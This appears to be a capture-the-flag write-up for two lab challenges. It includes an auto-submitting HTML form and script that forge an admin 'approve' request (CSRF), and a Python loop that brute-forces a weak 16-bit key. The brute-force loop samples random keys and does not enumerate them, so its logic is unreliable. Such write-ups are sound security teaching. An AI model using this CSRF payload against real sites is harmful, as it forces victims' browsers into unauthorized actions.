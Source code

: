 ## Apply for flag 2

When we open the site we are presented with our `id` for every request needed and there's a input box with a submit button.

Once we submit any text we're redireted to another page. 
![Apply-1](/Images/Extras/ApplyForAFlag/1.png "1")

There's a link to a `page` and when clicked it fowards us to another page with two buttons `Give the flag` and `Mark request as read`.

![Apply-22](/Images/Extras/ApplyForAFlag/2.png "2")

When we click the `Give the flag` button we get a message saying that we need to be admin to do that.
- To activate the `Give the flag` button we need to send a form by post with our `id` to the link that the existing button already sends ("http://ctf-fsi.fe.up.pt:5005/request/" + id + "/approve").
- As this button is disable we need to make a script to click it, so this is the form and script we will submit on the first page where there is an input box:
```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/8faa3db714efe9a28f9d38ff65cb2afb58bc10bc/approve" role="form">          
    <div class="submit">                  
        <input type="submit" id="button" value="Give the flag">   
    </div>  
</form>    

<script type="text/javascript"> 
    document.getElementById('button').click();  
</script>
```

- After submitting this form we should be redirected to the page with the flag. But since sometimes javascript blocks some actions we need to disable it in the browser settings.
- Once we do this we just need to refresh the page and the flag will be displayed.

![Apply-3](/Images/Extras/ApplyForAFlag/3.png "3")

```flag{ff16e17b0ebaf6797a844933bab5e03e}```

## NumberStation3

After running the command `nc ctf-fsi.fe.up.pt 6002` we are presented with a huge sequence of characters including numbers.

![Numbers-1](/Images/Extras/NumberStation3/1.png "1")

Once we had properly analyzed the code noticed that there were functions to encode and decode and generate the sequences, so we assumed this where the ones used to generate the sequence given to us.

![Numbers-2](/Images/Extras/NumberStation3/2.png "2")

The function `gen` generates a random 16-byte key. The function starts by using the os.urandom() method to generate a random 16-byte string, which it assigns to the rkey variable. It then iterates over each byte in rkey and uses a bitwise AND operation to set each byte to either 0 or 1, depending on its original value. Finally, the function returns the resulting 16-byte key as a bytes object.

Seing this we kwen we could bruteforce the key and decode the sequence to get the flag and the amount of cicles would only be 2 to the power of 16 because the number has 16 bits and each one can be 0 or 1.

To do so we used the following script:

```python
sequence = !!Sequence given to us thats too big to be written here!!

for _ in range(2**16) :
	tempSeq = gen()
	aux = dec(tempSeq, unhexlify(sequence)).decode('latin1')
	if (aux[0:4] == "flag"):
		print(aux)
		break
```
And after running it we got the flag.

![Numbers-3](/Images/Extras/NumberStation3/3.png "3")

```flag{414c7f8b83b64b4e60990b0da7089b3a}```


